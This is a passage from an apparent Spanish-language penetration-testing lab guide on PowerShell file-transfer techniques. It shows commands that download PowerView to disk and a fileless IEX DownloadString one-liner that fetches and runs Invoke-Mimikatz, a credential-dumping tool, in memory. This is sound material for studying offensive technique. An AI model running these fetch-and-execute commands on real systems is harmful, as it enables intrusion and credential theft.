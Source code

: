 #### Ejemplo

```powershell
PS C:\htb> (New-Object Net.WebClient).DownloadFile('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1', 'C:\Users\Public\Downloads\PowerView.ps1')
```

### Método DownloadString - Método Sin Archivos

En ataques sin archivos, en lugar de descargar un script de PowerShell al disco, podemos ejecutarlo directamente en memoria usando `Invoke-Expression` o el alias `IEX`.

```powershell
PS C:\htb> IEX (New-Object Net.WebClient).DownloadString('<URL del script>')
```

#### Ejemplo

```powershell
PS C:\htb> IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1')
```

### PowerShell Invoke-WebRequest

Desde PowerShell 3.0, el cmdlet `Invoke-WebRequest` también está disponible, aunque es notablemente más lento para descargar archivos. Se puede usar con alias como `iwr`, `curl` o `wget`.

```powershell
PS C:\htb> Invoke-WebRequest '<URL del archivo>' -OutFile '<Nombre del archivo de salida>'
```

#### Ejemplo

```powershell
PS C:\htb> Invoke-WebRequest https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 -OutFile PowerView.ps1
```

## Errores comunes en PowerShell

<figure><img src="../../.gitbook/assets/image (700).png" alt=""><figcaption></figcaption></figure>
